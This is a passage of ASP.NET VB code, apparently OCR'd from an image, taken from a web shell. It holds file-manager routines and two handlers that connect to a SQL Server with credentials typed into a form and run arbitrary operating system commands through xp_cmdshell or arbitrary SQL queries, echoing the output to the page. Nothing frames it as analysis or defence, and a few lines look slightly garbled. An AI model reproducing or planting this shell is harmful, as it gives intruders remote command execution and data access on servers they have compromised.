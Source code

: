 		call copydir(a & xdir.name & "\",b & xdir.name & "\")
	next
End Sub
Sub xexistdir(temp,ow)
	if directory.exists(temp)=true or file.exists(temp)=true then 
		if ow=0  then
			response.Redirect(request.ServerVariables("URL") & "?action=samename&src=" & server.UrlEncode(url))
		elseif ow=1 then
			del(temp)
		else
			dim d as string = session("cutboard")
			if right(d,1)="\" then
				TEMP1=url & second(now) & path.getfilename(mid(replace(d,"",""),1,len(replace(d,"",""))-1))
			else
				TEMP2=url & second(now) & replace(path.getfilename(d),"","")
			end if
		end if
	end if
End Sub
Sub existdir(temp)
		if  file.exists(temp)=false and directory.exists(temp)=false then 
			response.Write("<script>alert('Don\'t exist " & replace(temp,"\","\\")  &" ! Is it a CD-ROM ?');</sc" & "ript>")
			response.Write("<br><br><a href='javascript:history.back(1);'>Click Here Back</a>")
			response.End()
		end if
End Sub
Sub RunSQLCMD(Src As Object, E As EventArgs)
	Dim adoConn,strQuery,recResult,strResult
	if SqlName.Text<>"" then
		adoConn=Server.CreateObject("ADODB.Connection") 
		adoConn.Open("Provider=SQLOLEDB.1;Password=" & SqlPass.Text & ";UID=" & SqlName.Text & ";Data Source = " & ip.Text) 
		If Sqlcmd.Text<>"" Then 
			strQuery = "exec master.dbo.xp_cmdshell '" & Sqlcmd.Text & "'" 
	  		recResult = adoConn.Execute(strQuery) 
 	 		If NOT recResult.EOF Then 
   				Do While NOT recResult.EOF 
    				strResult = strResult & chr(13) & recResult(0).value
    				recResult.MoveNext 
   				Loop 
 	 		End if 
  			recResult = Nothing 
  			strResult = Replace(strResult," ","&nbsp;") 
  			strResult = Replace(strResult,"<","&lt;") 
  			strResult = Replace(strResult,">","&gt;") 
			resultSQL.Text=SqlCMD.Text & vbcrlf & "<pre>" & strResult & "</pre>"
			SqlCMD.Text=""
		 End if 
  		adoConn.Close 
	 End if
 End Sub
Sub RunSQLQUERY(Src As Object, E As EventArgs)
	Dim adoConn,strQuery,recResult,strResult
	if txtSqlName.Text<>"" then
		adoConn=Server.CreateObject("ADODB.Connection") 
		adoConn.Open("Provider=SQLOLEDB.1;Password=" & txtSqlPass.Text & ";UID=" & txtSqlName.Text & ";Data Source = " & txtHost.Text) 
		If txtSqlcmd.Text<>"" Then 
			strQuery = txtSqlcmd.Text
	  		recResult = adoConn.Execute(strQuery) 
 	 		If NOT recResult.EOF Then 
   				Do While NOT recResult.EOF 
    				strResult = strResult & chr(13) & recResult(0).value
